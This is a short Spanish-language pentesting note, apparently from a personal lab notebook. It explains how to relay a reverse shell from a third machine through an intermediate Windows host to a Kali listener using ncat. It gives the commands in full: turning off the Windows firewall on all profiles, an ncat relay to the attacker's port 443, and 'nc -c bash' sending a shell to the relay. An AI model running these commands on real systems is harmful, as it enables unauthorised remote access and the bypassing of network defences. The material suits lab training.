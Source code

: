 En windows, en vez de usar socat podemos usar ncat para permitir el tráfico de una reverse shell por parte de una máquina 3 pasando por una máquina windows intermedia. Por ejemplo, desde el Kali nos ponemos a la escucha:
![[Pasted image 20240615203300.png]]

A continuación, en la máquina intermedia podemos desactivar el firewall para evitar tener problemas:
```bash
netsh advfirewall set allprofiles state off
```

![[Pasted image 20240615203306.png]]

Ahora desde la máquina Windows intermedia decimos que todo el tráfico que recibamos por ejemplo por el puerto 1111 lo vamos a enviar al puerto 443 de la máquina atacante:
```bash
ncat -l -p 1111 -c "ncat 192.168.0.20 443"
```

![[Pasted image 20240615203310.png]]

Entonces ahora desde la máquina 3 enviamos la reverse shell a la máquina windows 7 intermedia por el puerto 1111 y deberíamos de recibir la conexión en nuestro Kali:
```bash
nc -c bash 10.10.10.129 1111
```

![[Pasted image 20240615203316.png]]

Y recibimos la conexión:

![[Pasted image 20240615203319.png]]
